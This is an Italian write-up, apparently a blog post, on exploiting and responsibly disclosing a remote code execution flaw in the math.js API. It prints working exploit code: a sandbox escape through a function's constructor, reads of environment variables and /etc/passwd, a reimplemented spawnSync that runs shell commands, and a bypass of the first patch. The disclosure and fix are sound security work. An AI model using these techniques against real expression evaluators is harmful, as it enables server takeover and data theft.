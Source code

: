 Come abbiamo exploitato una vulnerabilità di remote code execution in math.js
====

Questo articolo spiega in breve come abbiamo trovato, exploitato e segnalato una vulnerabilità di remote code execution (RCE). È fatto per essere una guida su come trovare vulnerabilità, e come segnalarle in modo responsabile.

## Prima fase: scoperta
Sperimentando con [un wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) dell'API math.js (`http://api.mathjs.org/v1/?expr=expression-here`), abbiamo scoperto che **sembra eseguire del codice JavaScript**, anche se con alcune restrizioni:

```
> !calc cos
Result: function

> !calc eval
Result: function

> !calc eval("x => x")
Error: Value expected (char 3)

> !calc eval("console.log")
Error: Undefined symbol console

> !calc eval("return 1")
Result: 1
```

In particolare, sembra che `eval` sia stato sostituito con una versione sicura. Neanche `Function` e `setTimeout` funzionano:

```
> !calc Function("return 1")
Error: Undefined symbol Function

> !calc setTimeout
Error: Undefined symbol Function
```

## Seconda fase: exploit

>Dopo aver capito che ci sono delle restrizioni sull'esecuzione del codice, abbiamo dovuto capire come aggirarle.

In JavaScript ci sono quattro modi di **eseguire delle stringhe**:

  - [`eval("codice")`](https://developer.mozilla.org/it/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("codice")`](https://developer.mozilla.org/it/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/it/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/it/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

Nell'ambiente math.js, non possiamo accedere direttamente a queste funzioni, o perché non sono definite o perché sono state ridefinite perché siano sicure. Tuttavia, ci si può accedere indirettamente: in particolare, **si puà accedere indirettamente a `Function` come construttore di una funzione esistente** - questa è stata l'intuizione chiave che ha portato all'exploit.

>Per esempio, `Function("return 1")` può essere sostituito con `Math.floor.constructor("return 1")`. Perciò, per eseguire `return 1`, possiamo usare `Math.floor.constructor("return 1")()`.

Sappiamo che in math.js `cos` è definito come una funzione, per cui l'abbiamo usata:

```
> !calc cos.constructor("return 1")()
Result: 1
```

Funziona!

Da qua avremmo potuto semplicemente usare `require` con dei moduli nativi e avere accesso al sistema operativo, giusto? Purtroppo no: nonostante il server dell'API math.js giri in un ambiente Node.js, per qualche motivo non possiamo usare `require`.

```
> !calc cos.constructor("return require")()
Error: require is not defined
```

Tuttavia abbiamo potuto usare `process`, che ha [diverse funzionalità carine](https://nodejs.org/api/process.html):

```
> !calc cos.constructor("return process")()
Result: [object process]

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<censurato>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<censurato>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<censurato>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

Nonostante `process.env` contenga alcune informazioni interessanti, non possiamo usarlo per fare nulla di interessante: dobbiamo andare più in fondo e usare [`process.binding`](http://stackoverflow.com/q/24042861), che esponde dei binding Javascript all'OS. Nonostante non siano presenti nella documentazione ufficiale, si può determinare il loro funzionamento leggendo il codice sorgente di Node.js. Ad esempio, possiamo usare `process.binding("fs")` per leggere qualsiasi file sul disco (se abbiamo i permessi necessari):

>Per brevità, salteremo il wrapper `!calc cos.constructor("code")`, e presenteremo solo il codice JS.

```
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

Abbiamo quasi finito: dobbiamo solo capire come aprire una shell ed eseguire un qualsiasi comando. Chi ha esperienza con Node.js sarà a conoscenza di [`child_process`](https://nodejs.org/api/child_process.html), che può essere usato per spawnare processi tramite `spawnSync`: dobbiamo solo re-implementare `child_process` usando i binding al SO (ricordiamo che non possiamo usare `require`).

È più facile di quanto sembri: basta prendere [il codice sorgente di `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), rimuovere il codice che non ci serve (funzioni inutilizzate e gestione degli errori), minificarlo ed eseguirlo nell'API.

<script src="https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822.js"></script>
<noscript>
```
// Source: https://github.com/nodejs/node/blob/master/lib/child_process.js

// Defines spawn_sync and normalizeSpawnArguments (without error handling). These are internal variables.
spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}

// Defines spawnSync, the function that will do the actual spawning
spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```
<small>Gist [qui](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822</small>
</noscript>

Una volta fatto questo, **possiamo spawnare un qualsiasi processo** ed eseguire comandi nella shell:

```
> spawnSync('/usr/bin/whoami');
{
  "status": 0,
  "signal": null,
  "output": [null, u15104, ],
  "pid": 100,
  "stdout": u15104,
  "stderr":
}
```

## Fase tre: segnalazione

Dopo aver trovato una vulnerabilità e l'abbiamo sfruttata al massimo, abbiamo dovuto decidere cosa farci. Poiché l'abbiamo exploitata per divertimento e non abbiamo scopi criminali, abbiamo scelto di fare i "white hat" e di segnalarlo all'autore. L'abbiamo **contattato in privato** tramite l'indirizzo e-mail sul suo profilo GitHub con questi dettagli:

 - una breve descrizione della vulnerabilità (una RCE in mathjs.eval);
 - un **attacco di esempio** con una spiegazione di come funzionasse (una spiegazione del perché `cos.constructor("code")()` funzionasse e di cosa si potesse fare con `process.bindings`);
 - una **dimostrazione** sul server live (abbiamo incluso l'output di `whoami` e `uname -a`);
 - suggerimenti su **come sistemare la vulnerabilità** (ad esempio, usando [il modulo `vm` in Node.js](https://nodejs.org/api/vm.html)).

Abbiamo lavorato con l'autore per due giorni per aiutarlo a sistemare la vulnerabilità. In particolare, dopo la fix inclusa in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) abbiamo trovato un altro modo di aggirarla (se non si può usare direttamente il costruttore, basta usare `cos.constructor.apply(null, "code")()`) che è stato sistemato in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 Marzo 2017 22:20 CEST: primo exploit avvenuto con successo
 - 29 Marzo 2017 14:43 CEST: la vulnerabilità è stata segnalata all'autore
 - 31 Marzo 2017 12:35 CEST: la seconda vulnerabilità (`.apply`) è stata segnalata
 - 31 Marzo 2017 13:52 CEST: sono state sistemate entrambe le vulnerabilità

---

>La vulnerabilità è stata scoperta da [\@CapacitorSet](https://github.com/CapacitorSet) e [\@denysvitali](https://github.com/denysvitali). Ringraziamo [\@josdejong](https://github.com/josdejong/) per aver fixato la vulnerabilità con prontezza, e [JSFuck](http://www.jsfuck.com/) per aver scoperto il trucco di usare `[].filter.constructor`.
>
><small>Rilasciato sotto la licenza [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).